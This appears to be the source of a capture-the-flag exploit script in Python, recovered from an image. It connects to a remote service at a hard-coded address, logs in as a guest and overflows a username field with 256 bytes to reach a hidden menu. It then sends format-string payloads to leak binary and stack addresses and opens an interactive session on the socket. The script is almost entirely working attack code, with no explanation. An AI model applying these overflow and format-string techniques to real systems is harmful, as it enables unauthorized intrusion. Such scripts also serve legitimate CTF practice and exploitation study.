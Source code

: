 ```python

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('localhost', 6666))
    s.connect(('202.112.26.107', 10910))
    
    raw_input()
    
    readtil('Login: ')
    sendln('guest')
    readtil('Password: ')
    sendln('guest123')
    readtil('choice: ')
    sendln('2')
    readtil('username:')
    sendln("A"*256)     # overflow userflag
    readtil('choice: ')
    sendln('4')         # secret login menu
    
    ### first format string vuln to read stack addr
    readtil('Login: ')
    # leak both binary address and stack address
    sendln('%1$lp-%'+sys.argv[1]+'$lp')
    readtil('Password: ')
    sendln('bleh')
    data = readtil('login failed.')
    
    m = re.findall(r'([a-f0-9]{5,})', data)
    # find stack addr:
    stack_addr = int(m[1], 16) 
    base_addr = int(m[0], 16) - 0x1490
    
    print "[+] Leaked address of base: {}".format(hex(base_addr))
    print "[+] Leaked address of stack: {}".format(hex(stack_addr))
    
    readtil('Login: ')
    
    sendln('AAAAAAABBBC%10$s'+q(stack_addr-504))    # this offset of 504 was found locally and seems to be correct for remote, too
    
    readtil('Password: ')
    sendln('bleh')
    data = s.recv(1000)
    print data 
    print hex(struct.unpack('<Q', data[len('AAAAAAABBBC'):len('AAAAAAABBBC')+6]+b"\x00\x00")[0])
    print "you're looking for {}".format(hex(base_addr + 0x120c))
    
    # check if the stack location contains the right return address
    if (struct.unpack('<Q', data[len('AAAAAAABBBC'):len('AAAAAAABBBC')+6]+b"\x00\x00")[0]) == (base_addr + 0x120c):
        print "Found at {}".format(sys.argv[1])
        raw_input()
        
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

    s.close()

pwn()
```

